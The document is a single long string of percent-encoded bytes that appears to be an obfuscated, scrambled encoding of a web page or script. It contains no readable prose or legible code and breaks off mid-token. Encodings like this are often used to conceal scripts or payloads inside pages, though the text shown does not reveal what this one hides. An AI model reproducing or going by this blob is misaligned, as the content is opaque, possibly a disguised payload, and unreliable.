23%70%61%7d%71%6d%74%6e%74%25%23%7e%68%7c%77%61%44%2f%57%6f%7d%7b%6e%75%6d%72%22%45%19%0b%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%46%68%27%64%77%63%72%73%46%2e%6f%6c%77%22%6f%66%32%60%76%76%7d%6f%39%74%7a%73%74%21%69%66%36%6c%7e%22%45%48%36%64%42%22%45%74%77%62%74%21%63%77%6d%72%7e%41%20%6d%32%73%6c%37%77%77%75%61%23%4b%47%6a%76%70%74%6e%22%5d%68%6e%79%6c%49%33%71%71%66%71%45%17%0b%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%46%36%61%45%19%0b%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%46%36%74%6a%4a%14%07%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%43%30%7e%76%47%15%09%19%0b%2d%24%22%21%27%27%23%22%21%20%23%2c%45%3a%68%6b%7f%41%12%09%22%21%20%23%2c%21%2d%24%46%36%6b%6e%7d%44%14%0a%23%2c%21%2d%40%35%77%66%79%45%17%0b%20%23%2c%21%49%77%61%73%6e%77%7f%44%14%0a%23%2c%21%2d%24%22%21%27%2b%2b%6e%76%63%7e%79%6c%7b%78%2b%37%75%6a%62%6e%78%28%6d%71%77%6e%78%6b%76%71%27%2b%2b%21%7b%16%06%21%2d%24%22%21%27%27%23%22%21%20%23%20%29%2f%27%74%76%7b%6e%6d%6b%62%61%7f%65%76%7b%77%20%28%31%72%74%6e%60%74%2b%23%72%65%73%7d%2e%2e%3c%16%08%21%20%23%2c%21%2d%24%22%84%2e%3c%16%08%21%20%23%2c%45%3a%77%61%73%6e%77%7f%44%14%0a%16%06%21%2d%24%22%45%74%7b%7a%76%6c%46%16%06%21%2d%24%22%21%27%27%23%34%7f%69%6f%61%76%38%76%6f%72%77%70%75%71%68%7e%6e%2c%7a%18%0e%22%21%27%27%23%22%21%20%23%2c%21%2d%73%7c%6c%75%69%77%75%7e%3a%23%64%68%61%68%6f%77%3c%12%09%22%21%20%23%2c%21%2d%24%22%21%27%27%73%63%6d%6c%6a%7a%6e%38%66%75%7d%7b%70%76%38%21%3d%3d%3a%33%30%29%39%14%0d%27%23%22%21%20%23%2c%21%2d%24%22%21%77%70%70%6b%7d%69%74%7a%3b%2d%76%6f%75%66%7b%6a%7c%6c%3b%16%06%21%2d%24%22%21%27%27%23%22%21%20%23%64%6c%64%6b%6a%7d%3d%27%33%39%14%0a%23%2c%21%2d%24%22%21%27%82%16%08%14%0a%23%2c%21%2d%24%22%21%27%31%7d%6b%6d%6d%74%39%73%60%77%72%76%71%74%6a%7c%6c%20%6a%62%73%6c%71%6f%21%7c%12%09%22%21%20%23%2c%21%2d%24%22%21%27%27%77%6f%6f%7c%39%2c%31%36%11%08%21%27%27%23%22%21%20%23%2c%21%2d%24%7e%76%77%3d%23%32%3a%15%09%2c%21%2d%24%22%21%27%27%23%22%21%20%6b%61%68%62%6c%7e%3b%27%36%33%32%2c%3b%16%06%21%2d%24%22%21%27%27%23%22%21%20%23%73%68%61%78%6a%3b%27%36%33%32%2c%3b%16%06%21%2d%24%22%21%27%27%23%22%21%20%23%7c%76%7e%6d%7e%68%70%71%39%22%60%62%70%7b%75%70%78%6f%3a%12%0d%23%22%21%20%23%2c%21%2d%81%17%0b%12%0d%23%22%21%20%23%2c%21%2d%32%6e%78%71%66%76%6b%62%35%60%7b%77%71%69%74%7d%27%7c%16%08%21%20%23%2c%21%2d%24%22%21%27%27%23%6e%68%73%73%78%60%74%3e%22%77%70%71%6e%39%14%0a%23%2c%21%2d%24%22%21%27%82%16%08%21%20%23%2c%45%3a%77%7e%78%73%6a%45%17%0b%20%23%2c%21%49%77%61%73%6e%77%7f%22%72%72%60%49%23%65%78%7e%71%74%3d%34%35%60%6a%62%74%37%62%73%75%6e%73%6a%62%72%68%73%35%6f%76%78%33%63%6b%66%7f%34%76%68%62%70%3b%6b%7c%79%6f%73%7e%30%32%34%30%32%35%30%36%67%75%7f%6c%75%7e%35%77%68%76%35%66%72%2f%42%46%36%74%64%71%6b%71%7c%45%19%0b%2d%24%22%21%43%74%60%70%68%70%7f%2c%72%7f%67%47%23%30%30%60%75%6d%6d%35%66%70%70%69%70%78%31%64%74%77%36%6a%72%71%6c%7f%7d%37%30%31%36%31%34%31%36%76%65%77%3b%6e%71%23%41%43%34%71%62%72%6a%7c%7d%4b%11%08%21%27%27%23%46%72%63%71%65%71%71%24%7e%78%77%6a%46%20%7d%6d%7b%70%36%67%65%7c%60%74%64%71%6b%71%7c%21%4a%14%07%24%22%21%27%27%23%22%21%37%34%2c%51%6c%76%71%6c%27%7b%6b%6f%21%5d%51%58%21%7d%65%70%60%72%6a%7f%6f%73%15%09%2c%21%2d%24%22%21%27%27%6d%7f%77%63%7f%65%76%7b%24%6d%6c%7b%57%62%70%60%75%6e%70%6c%7f%46%7b%57%66%72%6e%2a%77%61%76%61%35%2d%79%70%75%2e%27%78%17%0b%20%23%2c%21%2d%24%22%21%27%27%23%22%68%6e%23%24%20%70%76%76%28%27%7a%71%76%21%45%23%73%68%7b%68%75%7e%31%73%74%61%60%7c%6a%7b%77%3b%6c%70%6c%69%3c%16%08%21%20%23%2c%21%2d%24%22%21%27%27%23%74%60%75%6e%2c%44%2d%72%63%74%6a%31%71%6f%71%74%62%6f%6c%25%33%59%65%5c%63%66%67%36%6f%37%2c%23%69%60%2e%2f%25%2e%38%17%0b%20%23%2c%21%2d%24%22%21%27%27%23%22%7f%61%71%2c%73%60%6b%6f%79%27%42%23%74%6c%7f%23%5e%6c%62%49%7a%71%2f%25%58%45%2f%65%21%2c%2a%2d%72%63%74%6a%27%28%22%23%28%46%24%5a%6b%2a%21%64%2d%2e%87%2c%85%23%87%20%28%2f%2d%36%14%0d%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%73%6d%70%71%75%71%77%22%44%27%75%6e%6d%6c%78%35%61%79%60%67%2a%7c%75%73%2a%39%14%0a%23%2c%21%2d%24%22%21%27%27%23%22%21%69%6d%2c%29%2c%76%6f%72%7a%73%7f%71%28%20%71%61%7d%70%76%74%21%71%7a%77%76%3a%15%09%2c%21%2d%24%22%21%27%27%23%22%21%20%6a%62%21%25%25%70%6c%74%7a%77%7e%72%5b%31%69%28%2d%76%6f%7d%7a%75%75%22%2e%2f%38%19%0b%2d%24%22%21%27%27%23%22%21%20%23%2c%73%60%78%7f%73%71%27%6f%6f%62%77%6f%61%5c%5f%4d%41%76%72%77%74%74%6c%76%7f%24%73%60%77%7f%75%7b%74%58%30%64%36%71%61%71%79%65%61%6c%2f%30%67%29%36%6f%37%2c%23%2d%26%2b%28%3c%12%09%22%21%20%23%2c%21%2d%24%87%14%0d%27%23%22%21%20%23%2c%21%3a%33%22%4e%6e%79%6e%22%7d%68%6e%2c%71%6c%76%63%74%6a%7b%6e%70%21%61%23%72%60%7f%6d%63%63%73%6a%23%74%60%75%6e%19%0b%2d%24%22%21%27%27%23%22%7f%61%71%2c%6d%74%72%63%74%6e%64%40%75%77%7c%6e%7a%7d%2d%41%22%6e%6a%7b%53%63%73%61%76%61%7d%60%76%40%78%51%66%76%6f%29%2f%6a%60%2e%24%3f%17%0b%12%0d%23%22%21%20%23%2c%21%2d%28%2a%6d%70%64%7e%77%6c%76%7f%25%37%7f%69%63%6d%7e%2f%6d%7f%77%63%7f%65%76%7b%24%2a%28%27%7c%16%08%14%0a%23%2c%21%2d%24%22%21%27%27%23%22%21%37%34%2c%42%65%69%61%6a%27%6e%6d%22%7d%68%6e%2c%5c%5f%50%22%71%66%75%76%6f%7d%6d%71%2c%68%7e%24%6f%74%77%7b%7a%22%76%72%23%7a%76%71%24%6e%6c%69%6e%75%6f%6d%34%23%60%68%7e%74%76%60%7e%27%6f%6f%6f%61%7e%78%7d%2d%67%75%77%7b%6a%75%7e%14%0a%23%2c%21%2d%24%22%21%27%27%23%22%21%69%6d%2c%29%61%7d%74%60%72%6e%60%41%76%76%7f%61%77%71%24%47%44%27%7a%75%6e%6c%6e%6a%7a%6c%61%24%86%85%27%6b%7a%74%60%75%6a%6f%42%7a%72%7e%6c%71%7b%23%47%44%20%2c%23%28%2d%7f%17%0b%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%2e%29%2f%20%7a%76%38%6a%6b%75%6a%28%2a%34%72%68%74%73%29%24%3f%17%0b%27%27%23%22%21%20%23%2c%21%2d%24%22%84%12%0d%16%08%21%20%23%2c%21%2d%24%22%21%27%27%23%35%36%20%40%64%6c%6e%6f%22%68%69%27%7f%6a%6c%20%5e%5e%55%2d%74%63%73%66%72%6e%7e%6c%72%23%65%72%2d%65%7c%60%6e%73%62%60%75%6d%23%7b%73%2d%72%75%7d%31%12%09%22%21%20%23%2c%21%2d%24%22%21%27%27%6e%76%72%6d%23%77%14%07%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%2b%2f%2c%21%71%74%62%75%34%61%73%7d%77%73%70%62%6e%2e%29%35%7f%69%7a%7b%2a%28%3c%12%09%22%21%20%23%2c%21%2d%24%22%21%27%27%86%17%0b%20%23%2c%21%2d%24%22%21%82%2e%38%17%0b%20%23%2c%21%49%33%71%62%75%6e%73%7e%47%15%09%19%0b%2d%24%22%21%43%6b%6a%7c%21%63%77%6d%72%7e%41%20%62%70%71%7f%63%68%76%6e%7e%23%4b%11%08%14%0d%12%09%22%21%20%23%2c%21%2d%24%46%72%64%75%6a%72%7d%20%77%6d%77%62%79%63%6e%6a%42%69%63%7f%61%70%6f%73%64%74%7e%47%12%0d%23%22%21%20%23%2c%21%2d%24%22%21%27%79%62%70%21%7c%6b%61%52%60%70%6f%62%7b%33%23%7e%69%6d%4a%62%73%6c%71%6f%3a%12%0d%23%22%21%20%23%2c%21%2d%24%22%21%27%79%62%70%21%7c%74%60%60%74%24%47%21%71%6a%7c%22%4d%61%7f%61%29%24%30%17%0b%12%0d%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%76%7e%79%63%60%76%65%76%69%60%6f%63%78%20%46%2c%7d%7a%68%63%78%31%68%6e%7e%4d%61%7a%24%28%36%11%08%21%27%27%23%22%21%20%23%2c%21%2d%24%2e%29%6b%70%60%7f%74%6d%75%70%28%3b%76%6f%60%6b%7e%2b%6c%7c%76%60%70%68%7a%72%22%29%2e%27%78%17%0b%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%36%3a%7a%63%73%27%7b%74%6e%60%79%23%49%21%7b%69%7d%21%4b%66%7f%6f%29%29%38%19%0b%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%36%30%79%62%70%21%76%23%49%21%71%73%6e%60%7e%31%6c%6f%7d%4c%62%75%29%24%3f%17%0b%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%7e%69%6d%50%61%75%60%67%7e%21%42%27%6f%75%62%7d%76%61%77%71%32%6d%6c%7b%4a%77%6f%74%6d%75%70%43%74%4d%6e%29%28%73%74%61%60%7c%6a%7b%77%22%2d%39%14%0d%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%7d%68%6e%45%6f%7f%65%77%6c%27%42%23%6e%76%63%7e%79%6c%7b%78%34%6e%6a%7b%4e%76%6c%75%6e%7a%7d%4f%7d%4b%6d%2f%28%76%7b%48%6e%71%6d%74%60%2b%2b%3a%12%0d%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%7c%6b%61%5c%7f%70%22%44%27%7b%6b%6f%52%6d%77%61%62%71%32%75%71%7b%6e%74%74%72%5b%75%71%74%6f%69%70%66%70%69%64%6e%60%79%66%3a%7f%6c%70%7f%6c%3c%12%09%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%7f%64%6c%44%6a%70%60%72%6a%35%71%73%63%23%49%21%71%6c%6f%5c%75%73%38%17%0b%20%23%2c%21%2d%24%22%21%27%27%23%22%84%29%38%19%0b%2d%24%22%21%27%27%23%22%21%20%23%2c%6f%70%72%61%7d%6e%70%75%22%72%6d%7f%45%6f%7f%65%77%6c%54%70%7e%70%62%6d%2b%25%21%76%11%08%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%7d%63%73%20%7f%64%6c%50%76%76%3a%12%0d%16%08%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%65%6f%2d%2c%7e%69%6a%54%6e%76%6c%63%7f%3a%72%60%70%6f%62%7b%6a%6f%4b%77%6c%6e%74%21%4b%24%32%28%27%7c%16%08%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%7e%69%6a%5a%71%76%21%45%23%70%69%60%57%6f%75%6a%64%7f%34%76%70%7f%65%76%7b%77%59%7d%6f%6a%50%6f%75%6d%60%70%37%7e%69%76%6c%64%7b%6e%6e%48%76%6f%61%79%68%32%7c%60%73%7a%6e%39%14%0a%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%88%24%6f%75%74%6a%23%79%14%0a%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%7b%6f%6e%5f%73%74%23%49%21%71%6c%6f%52%6a%73%6e%61%7d%36%74%7c%7d%64%73%74%72%5c%71%7e%77%63%6d%71%6b%76%63%63%6e%60%7e%62%35%7c%60%74%7e%61%3a%18%0e%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%82%16%08%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%70%69%60%4d%6c%73%66%72%6e%34%72%72%60%2c%44%2d%78%6a%6c%5a%75%77%39%14%0a%23%2c%21%2d%24%22%21%27%27%23%22%21%85%16%06%21%2d%24%22%21%27%27%23%46%36%73%60%7e%68%7d%78%44%14%0d%12%09%22%21%20%23%2c%21%2d%24%46%20%32%32%23%4e%6c%6e%62%71%75%71%24%4e%78%71%66%76%6b%62%20%50%61%62%71%6d%75%77%27%32%36%44%14%0a%23%2c%21%2d%24%22%21%27%43%6f%6b%7f%20%6a%60%44%2f%74%76%60%7e%32%6f%75%7e%76%77%7b%60%61%26%22%62%73%66%70%71%44%22%6f%75%77%6c%71%6b%62%32%64%74%74%7d%6d%75%70%23%4b%11%08%21%27%27%23%22%21%20%23%2c%21%2d%24%46%52%4a%53%4e%41%5d%20%60%78%60%7e%77%47%23%64%7a%70%7e%76%75%36%7f%6c%79%69%61%7d%25%27%55%43%54%4d%46%2e%76%7d%78%6b%76%71%74%21%22%56%56%40%44%40%5b%4b%4f%44%25%6b%74%61%7c%75%6e%7a%7d%3b%6b%6f%7d%4a%73%6e%77%6c%76%7f%4e%78%44%68%2a%2e%7e%70%7e%70%68%6e%71%6d%74%60%2b%2b%37%74%75%60%22%44%20%7f%64%68%7e%32%75%71%7b%6e%74%74%72%5b%7f%64%68%7e%32%71%6c%73%6a%60%7e%6c%6c%4a%7a%6d%60%7c%67%37%79%66%77%7f%6c%22%45%19%0b%2d%24%22%21%27%27%23%22%21%20%23%2c%45%7e%67%70%68%77%7b%23%7e%78%70%6e%49%23%71%69%7a%7d%30%6d%62%7c%60%73%60%7e%68%7d%78%20%47%12%0d%6f%34%7e%72%6a%70%6c%25%2b%46%76%77%7b%6a%75%77%46%40%64%76%7a%77%6f%21%57%73%62%7b%6c%72%47%3b%76%7d%78%6b%76%71%41%47%75%71%7c%6a%7b%77%2d%7a%63%75%7a%6a%46%20%69%7c%7f%7c%72%37%33%35%7d%70%70%75%71%7d%72%6e%6d%74%3b%6c%6f%73%70%6c%7e%63%71%70%35%6f%76%78%33%6c%6c%72%65%6e%6e%36%6d%76%6e%6c%61%32%72%69%77%40%6a%6e%44%2f%28%65%6f%7f%65%77%6c%2c%28%21%44%4b%5f%23%5c%75%6c%7d%6f%73%43%30%74%72%7d%69%74%7a%47%49%73%72%7d%6e%70%75%22%7f%61%77%71%6c%48%26%6a%7d%7b%77%70%38%36%37%6d%61%74%6c%7c%30%31%31%64%74%77%36%7e%34%23%2a%64%6a%70%60%72%6a%28%2d%23%46%54%7e%6e%2d%54%76%60%7e%6a%71%46%36%77%73%70%68%7a%72%44%45%30%54%4e%56%4c%43%5f%4a%45%6f%76%35%47%43%65%71%35%47%44%6f%65%7f%2d%67%76%60%74%74%46%20%73%6d%70%7c%34%6e%73%74%7d%66%6e%75%6f%73%22%45%2c%45%64%6a%70%60%72%6a%23%61%75%61%70%7f%44%2f%76%6f%72%77%32%6a%6c%73%61%76%61%23%2d%6d%6e%44%25%7e%74%7f%73%69%6d%7e%60%78%69%20%21%74%75%60%47%23%68%7f%70%71%7e%3e%35%36%7b%70%74%74%72%7c%71%61%60%78%32%6a%6c%75%70%68%7f%60%70%73%3a%62%7a%71%35%6f%6a%72%61%6f%6d%37%6e%79%63%60%68%34%71%6f%77%44%6b%6d%45%2c%27%68%63%76%63%74%6a%2c%2c%20%21%6f%6e%7f%7d%70%76%6f%44%25%72%6e%6e%68%61%21%2c%60%79%70%75%7e%42%25%6e%74%62%72%7a%7c%7d%60%68%37%74%6a%6b%6a%63%23%20%62%78%75%7a%7b%6c%7c%73%73%70%61%73%6d%6e%7a%44%2f%26%22%74%70%7d%62%76%75%77%7c%62%7c%79%70%71%62%75%6a%6e%74%44%22%7f%7e%7c%60%26%22%7e%6a%65%68%6b%7d%61%77%78%76%72%6a%7f%75%73%74%60%70%6c%6d%75%49%23%71%76%7f%6c%25%27%70%63%77%6c%61%7b%79%7e%67%70%76%73%73%6a%74%6e%45%21%7a%76%2f%24%71%60%71%6b%61%75%79%45%21%6d%75%79%73%7d%34%74%64%71%6b%71%7c%70%2c%60%79%70%75%7e%32%74%62%77%6c%35%74%7e%68%62%6d%74%23%41%43%34%6b%6f%72%62%79%6c%4b%40%35%6d%6e%79%45%46%69%72%34%4a%45%6e%69%74%7d%6a%75%45%46%60%20%6b%7e%6c%63%41%20%69%7b%7b%73%71%3b%37%34%70%76%7a%72%71%7d%75%6a%62%77%37%68%6e%7e%76%66%79%63%71%77%31%60%75%74%37%6d%61%74%6f%69%6e%36%6b%70%7c%74%75%77%62%60%37%7d%6c%72%46%6e%6b%46%2d%2a%69%6d%7e%60%78%69%29%2e%25%27%71%6f%75%45%21%7a%76%7a%74%6f%77%6a%75%23%74%76%72%6e%62%6c%7f%76%6f%73%25%41%47%60%7c%7c%7f%7b%77%2d%67%76%60%74%74%46%20%63%7c%75%39%69%7a%7a%6f%73%27%64%74%76%76%72%36%33%23%4b%40%6b%21%64%73%62%71%72%45%21%62%60%2d%6a%63%34%6b%70%7c%74%75%77%62%60%23%4b%40%35%68%41%27%4f%75%7e%76%77%7b%60%61%24%56%68%71%6c%47%35%63%7d%7f%70%76%7b%42%46%36%66%41%47%63%21%68%71%61%6f%48%26%6a%7d%7b%77%70%38%36%37%7c%73%7e%3b%78%75%76%71%74%6b%7f%63%36%76%78%36%2f%24%70%6c%73%42%21%74%76%77%73%61%77%60%76%22%77%70%75%6e%6c%6c%72%71%61%73%2f%24%7e%60%75%68%6e%7e%44%22%64%6e%75%6c%72%69%23%41%43%61%7f%7d%7c%74%7a%21%6e%70%63%72%74%42%21%60%7d%76%36%64%76%73%69%70%21%64%70%77%75%73%35%32%3c%23%4b%40%6b%21%64%73%62%71%72%45%21%62%60%2d%6a%63%34%71%6a%7c%71%71%61%73%61%73%2f%42%46%36%6e%41%23%2c%77%62%70%7c%3a%53%6d%71%68%7b%27%5f%75%76%76%70%44%7c%6f%40%35%63%7a%7b%7f%75%77%46%47%3b%60%4b%40%35%62%6a%71%7f%6f%73%46%47%6e%73%3a%42%2d%28%12%0d%47%35%72%63%71%65%71%71%42%17%0b%27%27%23%22%21%20%23%2c%45%3a%68%6b%7f%41%12%09%22%21%20%23%2c%21%2d%24%46%20%32%32%23%4e%78%76%62%79%68%6e%24%51%6c%64%7b%6a%75%77%20%50%70%60%7f%78%71%21%32%32%45%17%0b%20%23%2c%21%2d%24%22%21%43%6b%6a%7c%21%69%6f%49%23%7b%73%37%6f%6e%73%6e%20%21%63%77%6d%72%7e%41%20%6d%7e%71%62%77%68%63%36%6f%76%7b%78%6f%77%7b%25%45%17%0b%20%23%2c%21%2d%24%22%21%27%27%23%22%45%63%6e%7a%7d%60%76%44%45%66%27%6b%70%6c%6e%46%2e%36%2f%24%61%75%66%74%70%47%23%62%7f%7a%21%6f%78%74%34%77%75%6a%77%60%72%7a%2c%74%71%31%33%21%72%75%36%30%21%7f%62%72%6c%7e%31%6f%6f%69%6a%60%7e%21%7f%62%72%6c%7e%31%76%68%68%6f%7f%20%21%7c%62%7e%6e%60%78%47%23%60%65%77%63%77%6b%21%4a%5f%64%77%6b%7d%27%27%5f%75%76%76%70%44%7c%6f%40%35%60%41%43%34%61%6c%76%7f%61%73%4b%11%08%21%27%27%23%22%21%20%23%48%36%61%6d%7c%47%12%0d%16%08%21%20%23%2c%21%2d%24%22%45%26%32%36%22%4d%79%75%6d%74%64%67%22%52%6a%64%7f%6b%76%76%23%41%77%61%77%22%21%27%32%36%44%14%0a%23%2c%21%2d%24%22%21%27%12%09%22%21%20%23%2c%21%2d%24%17%0b%27%27%23%22%45%37%6f%65%7f%4b%11%08%21%27%27%23%46%36%75%62%65%77%4b%11%08%21%27%27%23%46%6d%69%7d%2c%62%79%65%71%72%42%25%76%75%6d%61%77%2c%6f%6c%68%6f%23%27%6e%6f%47%23%73%6e%70%7d%64%72%6d%72%25%27%7f%63%63%69%75%60%6c%75%41%20%34%36%25%23%70%76%74%6e%49%23%61%6d%63%75%70%68%21%22%60%72%6a%6d%34%79%65%60%6c%73%73%6e%6e%63%79%46%2e%72%60%78%7e%68%71%68%70%56%60%62%6e%78%23%18%0e%22%21%27%27%23%22%21%20%62%7e%68%6c%31%6a%68%6b%6b%6e%74%44%22%7f%7e%7c%60%26%44%14%0d%27%23%22%21%20%23%2c%21%49%68%6b%7f%27%64%77%63%72%73%46%2e%74%7a%68%63%75%32%6b%6a%63%75%77%6c%2e%21%7f%73%76%6c%42%25%6f%75%62%7d%76%61%77%71%26%44%14%0d%27%23%22%21%20%23%2c%21%2d%24%22%21%43%6b%6a%7c%21%63%77%6d%72%7e%41%20%74%70%6b%62%76%34%63%74%7a%7d%60%72%7e%23%41%12%09%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%47%60%68%73%24%61%75%66%74%70%47%23%75%74%60%60%79%31%6a%6c%66%6b%6e%70%23%46%16%06%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%47%6a%3f%20%60%78%60%7e%77%47%23%72%70%6f%63%75%35%7f%65%7d%79%69%20%47%54%6a%7f%7e%68%76%6c%7f%45%3a%6c%3c%47%12%0d%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%44%34%60%68%73%42%17%0b%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%46%6d%69%7d%2c%62%79%65%71%72%42%25%76%75%6d%61%77%39%63%7a%68%7b%23%41%12%09%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%40%6e%68%79%27%60%76%60%73%70%49%23%61%31%6c%75%6a%7f%23%63%75%69%6c%7a%34%64%78%6f%74%74%32%60%6f%77%7c%6e%7e%21%67%79%71%7d%6e%69%7a%37%62%77%75%70%6c%7b%78%37%63%6a%7b%7c%6f%6c%76%21%4a%14%07%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%45%61%6d%7c%21%64%73%62%71%72%45%21%6d%75%64%6b%74%34%74%6a%77%6c%34%63%6e%7a%7d%60%76%22%6f%70%71%7f%37%7e%6d%6a%63%69%71%31%60%76%73%6b%21%44%4d%61%71%67%21%51%6c%6f%74%6a%43%34%6e%68%7e%45%19%0b%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%48%6d%64%7a%22%62%73%66%70%71%44%22%62%78%68%62%72%37%72%6a%73%6d%37%62%6d%75%70%6c%7f%26%44%14%0d%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%46%6d%69%7d%2c%62%79%65%71%72%42%25%60%7f%72%7c%74%79%34%6e%73%74%7d%75%70%77%22%62%7d%70%70%76%78%31%71%7e%6e%7b%60%6a%23%46%16%06%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%43%6a%74%71%7d%7f%2c%7d%74%74%6f%44%25%64%6b%6f%62%6b%61%7b%79%2f%24%61%75%66%74%70%47%23%63%7e%7f%7d%7a%71%37%62%70%71%7f%70%76%74%36%65%77%7d%79%7e%23%27%6e%6f%47%23%6c%62%7e%6a%5e%7b%6b%7d%64%6f%21%22%36%46%16%06%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%43%77%63%63%6d%77%2c%62%79%65%71%72%42%25%60%7f%72%7c%74%79%34%6e%73%74%7d%75%70%77%37%75%61%61%61%75%2f%24%6c%76%75%42%21%6e%60%72%68%5f%7e%64%78%61%69%25%27%6a%6e%44%22%6f%6d%73%66%57%7d%68%7b%64%6b%5e%6c%78%7f%2e%47%7a%72%35%76%69%69%47%35%75%61%61%61%75%4b%11%08%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%43%34%6e%68%7e%45%19%0b%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%48%36%61%6d%7c%47%12%0d%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%49%33%6e%68%79%41%16%08%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%46%72%72%66%77%76%47%4c%62%7e%6a%2d%78%6a%6c%72%6a%23%7e%7c%72%75%7f%21%71%6c%6f%21%73%6e%6c%6a%7d%20%70%71%73%63%65%61%6c%74%27%74%6c%21%7c%6b%61%21%7d%65%6d%6c%27%6b%62%70%6a%34%23%6f%73%60%65%7e%68%71%68%23%63%77%20%6e%74%71%60%76%6b%6c%71%64%6e%22%68%6c%6e%6d%75%2d%6a%75%73%27%71%6a%6d%69%7c%35%19%0b%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%50%73%74%24%6b%7d%27%70%7e%7e%20%15%09%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%59%74%71%73%2d%48%63%73%6c%27%7f%6a%6c%75%6e%2c%72%60%78%7e%68%71%68%23%7d%68%74%77%2c%60%7d%74%76%78%27%7b%74%22%7d%68%6a%7f%21%6f%76%75%7e%74%6a%71%22%76%76%77%75%37%49%33%71%74%66%73%77%44%14%0a%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%49%33%6e%68%79%41%16%08%21%20%23%2c%21%2d%24%22%21%27%27%23%46%36%6c%6a%72%47%18%0e%22%21%27%27%23%22%21%20%47%3b%6d%64%7a%44%14%0d%27%23%22%21%44%34%60%68%73%42%17%0b%12%0d%16%08%21%20%23%2c%45%63%73%75%7d%6a%75%23%61%75%61%70%7f%44%2f%71%7e%34%66%7a%7f%75%21%62%6c%39%75%64%6b%6a%7d%25%41%16%08%21%20%23%2c%21%2d%24%22%45%6b%6e%7d%22%62%74%62%7f%72%48%26%61%76%71%7b%62%6b%77%6d%71%2c%71%74%31%31%23%41%12%09%22%21%20%23%2c%21%2d%24%22%21%27%27%47%72%21%63%77%6d%72%7e%41%20%7d%6a%7f%7f%37%62%6d%75%70%6c%7f%24%7e%6c%7f%7b%36%77%7c%7c%6e%60%23%4b%58%75%76%71%54%6e%70%7f%6d%71%2c%68%7e%24%63%6f%69%6e%77%6b%60%7c%6e%60%21%71%73%22%45%66%27%6b%70%6c%6e%46%2e%36%2f%42%5e%76%70%71%70%4a%7c%62%47%3b%60%4b%32%22%40%71%6b%23%6e%76%6d%70%2c%77%7a%78%22%69%70%74%7f%22%60%76%7a%2c%6f%64%70%6f%72%27%70%75%22%68%7c%e1%8c%98%7e%24%71%6c%75%79%6e%70%72%36%23%4d%75%79%24%6c%68%73%6a%70%22%76%72%23%6f%76%7b%78%6f%77%7b%74%23%6a%76%73%7f%61%6d%2d%73%74%21%7b%6f%6a%70%6d%20%73%6d%73%71%7d%17%0b%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%7d%6c%62%70%65%7d%60%77%34%21%43%66%23%6a%73%6d%6d%49%23%3a%26%44%5d%70%70%75%71%49%7d%61%48%36%6c%42%22%6d%70%6a%70%22%77%77%7f%2c%60%6e%67%6f%71%7b%27%71%6f%72%70%74%7a%72%64%66%6b%75%6e%7b%7a%22%6f%77%71%2c%62%7a%72%7e%6c%71%7b%70%17%0b%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%69%7a%77%7e%6c%6b%27%74%74%21%7c%6b%65%73%61%24%72%60%75%7b%7a%22%7e%6d%61%7f%68%71%69%71%37%27%58%6e%22%6b%7d%70%70%21%64%72%6e%6c%7f%27%7f%6a%76%73%6e%2c%75%64%72%69%72%27%78%6b%6b%62%68%23%6d%73%60%24%63%75%75%6a%62%6e%78%20%62%72%60%64%70%63%63%73%6a%23%6b%77%20%6a%7a%7d%60%76%74%6c%7b%31%47%35%71%46%16%06%21%2d%24%22%21%27%27%23%22%21%20%23%48%71%2d%67%76%60%74%74%46%20%74%35%33%2c%7d%60%7c%7e%34%64%6a%75%7e%6c%72%23%70%6c%75%78%37%74%7a%7b%6e%6